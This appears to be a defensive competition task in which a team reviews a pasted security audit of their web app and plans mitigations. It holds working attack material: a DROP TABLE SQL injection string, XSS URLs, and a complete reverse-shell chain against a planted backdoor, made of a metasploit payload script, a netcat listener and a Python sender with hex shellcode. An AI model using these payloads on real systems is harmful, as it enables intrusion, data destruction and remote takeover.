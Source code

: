 # Software Security Audit

## Objective
Someone online has done a software security audit of the source we based out web app on.  In short, they found some major issues.  The report was pulled from a Wordpress blog and put on our company wiki (shown below).  Go over the vulnerabilities in the audit and write a detailed report about whether or not your web app is vulnerable to the issues mentioned.  

**Include details about any mitigations that were taken to prevent the issues mentioned in the audit.  If our web app is vulnerable include details for how we could mitigate the attack and a work estimate (guestimate of hours, days, or weeks) of how long it would take to fix the issue(s) if not resolved.**

## Web App Vulnerabilities and Exploits

### SQL Injection on Forms
Drop Users table by entering statement below in the "username" field of the login form.  SQL injection appears likely on other forms as well.

`test'; DROP TABLE Users;#`

Note other SQL injections are possible aside from the example above.

### Reflected XSS

The timesheet page takes unsanitized input from the query parameter and embeds it in a hidden html input element, which could result in reflected XSS attacks.

    http://localhost/webapp/timesheet?query=01-02-2014"><script>alert(42);</script>
    
    http://localhost/webapp/timesheet?query=01-02-2014%22%3E%3Cscript%3Ealert%2842%29;%3C/script%3E

### Plaintext Database Password Entries
The MySQL database contains plaintext passwords and other sensitive information.

### Database Dump
Using the libunwind library is used to recover from crashes and dumps the contents of the database on a crash.  Additionally the log_status "feature" (or malware?) causes a crash on average 1/1000 page requests.

    if ((rand() % 1000) == 0) {
        log_stats(stderr, DISPATCH, LOG_LEVEL_DEFAULT);
    }

### Privilege Escalation
The following lines are an accidental or sneaky attempt to make the application run as root.  The if condition actually sets the uid instead of checking it.  A valid check would utilize "==" not "=".
        
	int uid = (int) geteuid();
	if(uid = 0){
		// never run webapp as root, its a security risk
		uid = 1;
	}
	// set uid to non-root user
	setuid(uid);
	seteuid(uid);

### Known Session Identifiers
Cookies utilize poor session management.  Authorization could be bypassed by setting the Cookie "Authorized" field to "yes".  Additionally session names are just the names of user accounts and can be easily guessed by attackers, which could result in privilege escalation attacks.

### Hidden Backdoor
If a POST request is made with the user agent "asn_roodkcab" ("nsa_backdoor" spelled backwards) the string value of the "data" parameter is decoded as ASCII hex to binary and run in executable memory.  This was tested using metasploit to generate a reverse shell payload and sent with a python script to activate remotely.  Sample scripts below.  A demo video of the attack is available [here](https://www.dropbox.com/s/c5z5udh3y384uyu/NCDC2014_Backdoor.mp4).

Generate your shellcode payload.  Sample script to generate payload with metasploit on Kali shown below.  Depending on target machine OS and architecture some changes may need to be made.  This was tested on a target machine running Ubuntu 12.04 LTS 64 bit.

	#!/bin/bash
	clear
	echo -e "Enter attacker machine IP:  \c"
	read IP
	echo -e "Enter port: \c"
	read port
	msfpayload linux/x64/shell_reverse_tcp LHOST=$IP LPORT=$port R | msfencode -b "\x00\x0a\x0b\x0c\x0d" -t c -e x64/xor >> payload
	echo "Finished"
	ls -la payload

On attacking machine setup the reverse shell listener with netcat (set port to the port you want to listen on, example here is port 447):

`run nc -nvvlp 447`

Edit script with the proper IP address or URL of the victim machine and the Hex encode payload you generated in the previous step (note you will need to do some Find/Replace to get it formatted correctly).  Then on the attacking machine run:

	#!/usr/bin/python
	import urllib
	import urllib2
	
	# replace with target machine IP or URL
	url = 'http://192.168.1.154/webapp'
	
	# replace with your target specific shell code
	# note shellcode should be HEX encode without seperating charcters
	values = {'data' : '4831C94881E9F6FFFFFF488D05EFFFFFFF48BBF0C671726F32CBE248315827482DF8FFFFFFE2F49AEF29EB05309488F1987E7727A5835BF2C670CDAF9ACAD5A18EF89405229188DA9E7E77053195AA0F081B53373DCE9706AC4A2AF67A70CD92AF1F5D1C5ACBB1B84F9620387A4204FFC371726F32CBE2'}
	
	headers = { 'User-Agent' : 'asn_roodkcab' }
	
	data = urllib.urlencode(values)
	req = urllib2.Request(url, data, headers)
	response = urllib2.urlopen(req)
	page = response.read()
	
	print page
	
### Buffer Overflows and Memory Leaks
This app makes heavy use of [insecure functions](http://natashenka.ca/wp-content/uploads/2014/01/truebugswait8x11.pdf) that are susceptible to potential buffer overflows from user controlled inputs.  The exploitability of these issues was not explored, but static analysis tools can help to uncover locations of potential issues.

[Coverity with Github integration](https://scan.coverity.com/projects/1311) discovers buffer overflows in the dispatch error message creation code.

    char err[1024] = "No match for ";
    strcat(err, method_str);
    strcat(err, " \"");
    strcat(err, path_info);
    strcat(err, "\"");
    strcat(err, agt);
    error_handler(err);
    
Memory leaks are present all over the application and could be leverage to perform DOS attacks against the application.
